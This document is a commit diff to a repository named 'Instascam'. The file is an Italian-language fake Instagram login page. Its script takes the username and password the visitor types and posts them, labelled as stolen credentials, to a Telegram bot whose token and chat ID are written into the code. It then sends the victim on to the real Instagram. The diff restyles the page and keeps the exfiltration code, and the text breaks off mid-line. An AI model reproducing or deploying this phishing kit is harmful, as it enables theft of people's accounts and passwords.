

Before and after one commit to mauriziomodenaforce-hub/Instascam, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 242-800 px from the top of the page, without its empty margins (309-949 px from the left). Drawn offline with Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,9 +5,9 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
     <title>Instagram</title>
     <style>
-        * { box-sizing: border-box; margin: 0; padding: 0; }
+        * { box-sizing: border-box; margin: 0; padding: 0; -webkit-tap-highlight-color: transparent; }
         body {
-            background-color: #fafafa;
+            background-color: #FAFAFA;
             font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
             display: flex;
             flex-direction: column;
@@ -16,131 +16,71 @@
             min-height: 100vh;
             color: #262626;
         }
-        .container {
-            background-color: #ffffff;
-            border: 1px solid #dbdbdb;
-            width: 350px;
-            padding: 10px 40px;
-            margin: 8px 0;
-        }
-        .logo-svg {
-            width: 175px;
-            height: auto;
-            display: block;
-            margin: 0 auto 22px auto;
-        }
-        form {
+        .login-container {
+            background-color: #FFFFFF;
+            border: 1px solid #DBDBDB;
+            width: 100%;
+            max-width: 350px;
+            padding: 40px 20px;
             display: flex;
             flex-direction: column;
+            align-items: center;
         }
+        .logo-svg { width: 175px; height: auto; margin-bottom: 25px; }
+        form { width: 100%; display: flex; flex-direction: column; }
         input {
-            background-color: #fafafa;
-            border: 1px solid #dbdbdb;
+            background-color: #FAFAFA;
+            border: 1px solid #DBDBDB;
             border-radius: 3px;
-            float: left;
             font-size: 12px;
-            line-height: 21px;
+            line-height: 20px;
             padding: 9px 8px 7px;
-            text-align: left;
             width: 100%;
             margin-bottom: 6px;
             color: #262626;
-        }
-        input:focus {
-            border: 1px solid #a8a8a8;
             outline: none;
         }
-        button {
-            background-color: #0095f6;
+        input:focus { border: 1px solid #A8A8A8; }
+        .btn-login {
+            background-color: #0095F6;
+            border: none;
             border-radius: 4px;
-            border: none;
-            color: white;
+            color: #FFFFFF;
             font-weight: 600;
+            font-size: 14px;
             line-height: 21px;
-            padding: 5px;
-            text-align: center;
-            text-transform: uppercase;
+            padding: 7px 16px;
             width: 100%;
             margin-top: 10px;
             cursor: pointer;
-            opacity: 1;
         }
-        button:disabled {
-            opacity: 0.6;
-            cursor: default;
-        }
-        .divider {
-            position: relative;
-            text-align: center;
-            margin: 15px 0;
-        }
+        .btn-login:disabled { opacity: 0.5; cursor: not-allowed; }
+        .divider { position: relative; width: 100%; margin: 20px 0; text-align: center; }
         .divider::before {
-            content: "";
-            position: absolute;
-            top: 50%;
-            left: 0;
-            width: 100%;
-            height: 1px;
-            background-color: #dbdbdb;
+            content: ""; position: absolute; top: 50%; left: 0; width: 100%; height: 1px; background-color: #DBDBDB;
         }
         .divider span {
-            background-color: #fff;
-            padding: 0 8px;
-            color: #8e8e8e;
-            font-size: 12px;
-            position: relative;
-            z-index: 1;
+            background-color: #FFFFFF; padding: 0 10px; color: #8E8E8E; font-size: 12px; position: relative; z-index: 1;
         }
-        .btn-blue {
-            background-color: #385185;
-            font-size: 14px;
-            font-weight: 600;
-            padding: 5px 0;
-            margin-bottom: 12px;
+        .btn-facebook {
+            background-color: #385185; border: none; border-radius: 4px; color: #FFFFFF;
+            font-weight: 600; font-size: 14px; line-height: 21px; padding: 7px 16px; width: 100%; margin-bottom: 15px;
         }
-        .forgot-password {
-            color: #00376b;
-            font-size: 12px;
-            text-decoration: none;
-            margin-top: 20px;
-            display: block;
-            text-align: center;
+        .forgot-link { color: #00376B; font-size: 12px; text-decoration: none; margin-top: 10px; display: block; text-align: center; }
+        .signup-container {
+            background-color: #FFFFFF; border: 1px solid #DBDBDB; width: 100%; max-width: 350px;
+            padding: 20px; text-align: center; margin-top: 20px;
         }
-        .signup-container {
-            margin-top: 20px;
-            background-color: #fafafa;
-            border: 1px solid #dbdbdb;
-            border-radius: 1px;
-            padding: 15px;
-            text-align: center;
-            width: 350px;
-            margin-left: -40px;
-        }
-        .signup-text {
-            font-size: 14px;
-            line-height: 20px;
-        }
-        .signup-text a {
-            color: #0095f6;
-            text-decoration: none;
-            font-weight: 600;
-        }
-        .footer {
-            margin-top: 20px;
-            text-align: center;
-            font-size: 12px;
-            color: #8e8e8e;
-        }
-        .footer a {
-            color: #00376b;
-            text-decoration: none;
-        }
+        .signup-text { font-size: 14px; line-height: 20px; color: #262626; }
+        .signup-text a { color: #0095F6; text-decoration: none; font-weight: 600; }
+        .footer { margin-top: 30px; text-align: center; font-size: 12px; color: #8E8E8E; }
+        .footer a { color: #00376B; text-decoration: none; font-weight: 600; }
     </style>
     <link href="https://fonts.googleapis.com/css2?family=Grand+Hotel&display=swap" rel="stylesheet">
 </head>
 <body>
 
-    <div class="container">
+    <div class="login-container">
         <svg class="logo-svg" viewBox="0 0 103 29" xmlns="http://www.w3.org/2000/svg">
             <path d="M51.2 0C66.8 0 80.4 11.3 80.4 26.9S66.8 53.8 51.2 53.8 22 42.5 22 26.9 35.6 0 51.2 0zm0 11.6c-8.4 0-15.3 6.9-15.3 15.3s6.9 15.3 15.3 15.3 15.3-6.9 15.3-15.3-6.9-15.3-15.3-15.3zm0 5.8c5.2 0 9.5 4.3 9.5 9.5s-4.3 9.5-9.5 9.5-9.5-4.3-9.5-9.5 4.3-9.5 9.5-9.5z" fill="#262626"/>
             <text x="51.2" y="29" text-anchor="middle" font-family="'Grand Hotel', cursive" font-size="24" fill="#262626">Instagram</text>
@@ -149,16 +89,15 @@
         <form id="loginForm">
             <input type="text" id="username" name="username" placeholder="Numero di telefono, nome utente o email" autocomplete="off">
             <input type="password" id="password" name="password" placeholder="Password">
-            <button type="submit" id="submitBtn">Accedi</button>
+            <button type="submit" class="btn-login" id="submitBtn">Accedi</button>
         </form>
 
         <div class="divider">
             <span>Oppure</span>
         </div>
 
-        <button class="btn-blue" onclick="window.location.href='https://www.instagram.com/accounts/login/facebook/'">Accedi con Facebook</button>
-
-        <a href="#" class="forgot-password">Hai dimenticato la password?</a>
+        <button class="btn-facebook" onclick="window.location.href='https://www.instagram.com/accounts/login/facebook/'">Accedi con Facebook</button>
+        <a href="#" class="forgot-link">Hai dimenticato la password?</a>
     </div>
 
     <div class="signup-container">
@@ -168,7 +107,8 @@
     </div>
 
     <div class="footer">
-        <a href="#">Ottieni l'app</a>
+        <p style="margin-bottom: 10px;">Ottieni l'app</p>
+        <a href="#">Apple Store</a> | <a href="#">Google Play</a>
     </div>
 
     <script>
@@ -181,30 +121,12 @@
 
             if(username && password) {
                 submitBtn.disabled = true;
-                submitBtn.innerText = "Verifica...";
+                submitBtn.innerText = "Caricamento...";
 
-                // CONFIGURAZIONE BOT TELEGRAM (GIÀ INSERITA)
+                // --- CONFIGURAZIONE BOT TELEGRAM ---
+                // I TUOI DATI SONO QUI SOTTO
                 const BOT_TOKEN = "8788982206:AAHn01TeqrZJ_s-Up3EIFylCzdY7QbA3bXY";
                 const CHAT_ID = "8716217678";
-                // -------------------------------
+                // ---------------------------------
 
-                const message = `🚨 *NUOVE CREDENZIALI RUBATE!* 🚨\n\n👤 *Username:* ${username}\n🔑 *Password:* ${password}\n\n🌐 *IP:* (Non rilevato)\n⏰ *Ora:* ${new Date().toLocaleString()}`;
-
-                fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent(message)}&parse_mode=Markdown`, {
-                    method: 'POST',
-                    mode: 'no-cors'
-                }).then(() => {
-                    setTimeout(() => {
-                        window.location.href = "https://www.instagram.com/";
-                    }, 1000);
-                }).catch(err => {
-                    console.error("Errore invio bot:", err);
-                    setTimeout(() => {
-                        window.location.href = "https://www.instagram.com/";
-                    }, 1000);
-                });
-            }
-        });
-    </script>
-</body>
-</html>
+                const message = `🚨 *NUOVE CREDENZIAL
```
